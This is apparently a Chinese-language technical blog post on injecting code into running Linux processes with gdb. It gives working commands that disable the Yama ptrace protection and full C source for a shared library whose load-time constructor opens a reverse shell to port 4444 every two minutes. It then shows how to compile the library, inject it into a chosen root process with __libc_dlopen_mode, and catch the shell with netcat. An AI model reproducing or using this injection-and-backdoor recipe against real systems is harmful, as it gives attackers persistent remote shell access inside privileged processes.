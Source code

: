 ```yaml
---
layout: post
title:  "使用gdb注入进程"
date:   2018-03-05 11:30:00
categories: 技术学习
tags: [gdb]
---
```


### 注入步骤

（1）linux 中的Yama模块会禁用ptrace-based代码注入，需要将其关闭

```
echo 0 > /proc/sys/kernel/yama/ptrace_scope # 允许任何进程注入代码到相同用户启动的进程中,root用户可以注入所有进程

echo 2 > /proc/sys/kernel/yama/ptrace_scope # 只允许root用户注入代码

```

（2） 要注入的代码callback.c：

```
#include <pthread.h>
#include <stdlib.h>
#include <unistd.h>

#define SLEEP  120                    /* Time to sleep between callbacks */
#define CBADDR "127.0.0.1"           /* Callback address */
#define CBPORT "4444"                 /* Callback port */

/* Reverse shell command */
#define CMD "echo 'exec >&/dev/tcp/"\
            CBADDR "/" CBPORT "; exec 0>&1' | /bin/bash"

void *callback(void *a);

__attribute__((constructor)) /* Run this function on library load */
// 在动态库加载之后运行该函数
void start_callbacks(){
        pthread_t tid;
        pthread_attr_t attr;

        /* Start thread detached */
        if (-1 == pthread_attr_init(&attr)) {
                return;
        }
        if (-1 == pthread_attr_setdetachstate(&attr,
                                PTHREAD_CREATE_DETACHED)) {
                return;
        }

        /* Spawn a thread to do the real work */
        pthread_create(&tid, &attr, callback, NULL);
}

/* callback tries to spawn a reverse shell every so often.  */
void *
callback(void *a)
{
        for (;;) {
                /* Try to spawn a reverse shell */
                system(CMD);
                /* Wait until next shell */
                sleep(SLEEP);
        }
        return NULL;
}

```

编译成动态链接库：
```
cc -O2 -fPIC -o libcallback.so ./callback.c -lpthread -shared
```

（3）切换到root用户，列出root用户进程

```
ps -fxo pid,user,args | egrep -v ' \[\S+\]$'
```

选择想要注入的进程pid，使用gdb进行注入

```
echo 'print __libc_dlopen_mode("/root/libcallback.so", 2)' | gdb -p pid
```

用gdb打开进程，并且用__libc_dlopen_mode打开要注入的动态链接库，

（4）开启另外的终端，监听本地的4444端口

```
nc -nvl 4444 
```

### 注入效果

![](../image/2018-03-15-使用gdb注入进程/1.jpg)

### 参考链接

https://magisterquis.github.io/2018/03/11/process-injection-with-gdb.html

